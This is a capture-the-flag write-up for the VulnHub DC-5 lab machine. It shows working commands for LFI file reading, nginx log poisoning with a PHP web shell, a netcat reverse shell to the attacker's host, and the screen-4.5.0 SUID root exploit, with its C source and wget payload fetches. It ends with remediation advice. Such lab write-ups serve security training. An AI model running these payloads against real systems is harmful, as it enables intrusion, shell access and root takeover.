




# DC: 5 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.108 (host-only) |
| **Difficulty** | Medium |
| **OS** | Linux (Nginx + PHP) |
| **Root Flag** | thisistheflag.txt (in /root) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/dc-5,314/) |

## Attack Summary

nmap → contact form LFI (thankyou.php) → nginx access log poisoning → PHP RCE via cmd parameter → netcat reverse shell → screen-4.5.0 SUID exploit (EDB-41154) → root

## Methodology

1. Network discovery and port scan
2. Web enumeration — discover LFI in `thankyou.php`
3. Poison nginx access log with PHP payload
4. Trigger RCE via LFI + cmd parameter
5. Reverse shell via netcat
6. Identify screen-4.5.0 SUID binary
7. Compile and run screen local privilege escalation exploit

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.108
```

Port 80 (HTTP/Nginx) is the primary target.


---

## Step 2: Web Enumeration and LFI Discovery

Browse to `http://192.168.1.108` and navigate to the contact form. Submit the form — it redirects to `thankyou.php`. The `file` parameter in the URL is vulnerable to Local File Inclusion.

```bash
# Test LFI
curl "http://192.168.1.108/thankyou.php?file=../../../etc/passwd"
# Also test nginx access log
curl "http://192.168.1.108/thankyou.php?file=../../../var/log/nginx/access.log"
```



---

## Step 3: Nginx Access Log Poisoning

The nginx access log is readable via LFI. Inject a PHP web shell into the User-Agent header:

```bash
curl -A "<?php system(\$_GET['cmd']); ?>" http://192.168.1.108/
```

Now the log file contains executable PHP code. Verify RCE:

```bash
curl "http://192.168.1.108/thankyou.php?file=../../../var/log/nginx/access.log&cmd=id"
```

Expected output: `uid=33(www-data) gid=33(www-data)`



---

## Step 4: Reverse Shell

Set up a listener, then trigger the reverse shell:

```bash
# Attacker
nc -lvp 1234

# Payload (URL-encoded in the cmd parameter)
curl "http://192.168.1.108/thankyou.php?file=../../../var/log/nginx/access.log&cmd=nc+-e+/bin/bash+192.168.1.110+1234"
```

Stabilise the shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```



---

## Step 5: Privilege Escalation — screen-4.5.0 SUID (EDB-41154)

```bash
find / -perm -u=s -type f 2>/dev/null
# Result includes: /bin/screen-4.5.0
searchsploit screen 4.5.0
searchsploit -m 41154
```

Split the exploit. On the attacker machine:

```bash
# libhax.c
cat > /tmp/libhax.c << 'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
}
EOF

# rootshell.c
cat > /tmp/rootshell.c << 'EOF'
#include <stdio.h>
int main(void){
    setuid(0); setgid(0); seteuid(0); setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF

gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
gcc -o /tmp/rootshell /tmp/rootshell.c
python -m SimpleHTTPServer 8000
```

On the target:

```bash
cd /etc
wget http://192.168.1.110:8000/libhax.so
wget http://192.168.1.110:8000/rootshell
wget http://192.168.1.110:8000/41154.sh
chmod 777 41154.sh
./41154.sh
id
# uid=0(root)
cat /root/thisistheflag.txt
```



---

## Lessons Learned

1. **LFI in include parameters** — never pass user-controlled input directly to `include` or `require`; use an allowlist
2. **Nginx logs are world-readable by default** — log poisoning is trivial once LFI exists; restrict log permissions
3. **SUID on outdated utilities** — screen 4.5.0 has a known SUID LPE; audit SUID binaries regularly and remove unnecessary ones
4. **RCE via log poisoning** — any server-side log file readable via LFI and writable by user input is exploitable

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| LFI in `file` parameter | Replace with an allowlist of valid file names; never pass raw input to `include()` |
| Nginx log permissions | `chmod 640 /var/log/nginx/access.log`; run web server as dedicated user |
| screen-4.5.0 SUID | `chmod u-s /bin/screen-4.5.0`; update or remove obsolete binaries |
